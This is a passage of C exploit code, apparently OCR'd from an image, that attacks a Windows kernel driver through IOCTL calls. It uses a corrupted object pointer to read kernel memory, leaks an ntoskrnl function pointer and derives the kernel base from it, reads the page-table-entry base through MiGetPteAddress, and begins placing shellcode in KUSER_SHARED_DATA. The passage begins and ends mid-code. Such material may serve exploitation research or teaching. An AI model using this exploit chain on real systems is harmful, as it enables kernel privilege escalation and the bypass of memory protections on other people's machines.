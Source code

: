 ```c
        0x0022206b,
        &mainObject,
        sizeof(mainObject),
        &mainObject,
        sizeof(mainObject),
        &bytesreturnedreadPrimtitve,
        NULL
    );

    // Print the pointer to nt!ExAllocatePoolWithTag
    printf("[+] Leaked ntoskrnl.exe pointer! nt!ExAllocatePoolWithTag: 0x%llx\n", ntPointer);

    // Assign a variable the base of the kernel (static offset)
    unsigned long long kernelBase = ntPointer - 0x9b3160;

    // Print the base of the kernel
    printf("[+] ntoskrnl.exe base address: 0x%llx\n", kernelBase);

    // Assign a variable with nt!MiGetPteAddress+0x13
    unsigned long long migetpteAddress = kernelBase + 0x222073;

    // Print update
    printf("[+] nt!MiGetPteAddress+0x13: 0x%llx\n", migetpteAddress);

    // Assign the target address to the corrupted object
    helperobjectArray[index].Name = &migetpteAddress;

    // Set the Name member of the "corrupted" object managed by the global array to obtain the base of the PTEs
    DeviceIoControl(
        driverHandle,
        0x00222067,
        &helperobjectArray[index],
        sizeof(helperobjectArray[index]),
        NULL,
        NULL,
        &bytesreturnedreadPrimtitve,
        NULL
    );

    // Declare a variable that will receive the base of the PTEs
    unsigned long long pteBase = 0x9090909090909090;

    // Setting the Name member of the main object to the address of the pteBase variable
    mainObject.Name = &pteBase;

    // Perform the "Get" operation on the main object
    DeviceIoControl(
        driverHandle,
        0x0022206b,
        &mainObject,
        sizeof(mainObject),
        &mainObject,
        sizeof(mainObject),
        &bytesreturnedreadPrimtitve,
        NULL
    );

    // Print update
    printf("[+] Base of the page table entries: 0x%llx\n", pteBase);

    // Calculate the PTE page for our shellcode in KUSER_SHARED_DATA
    unsigned long long shellcodePte = 0xfffff78000000800 >> 9;
```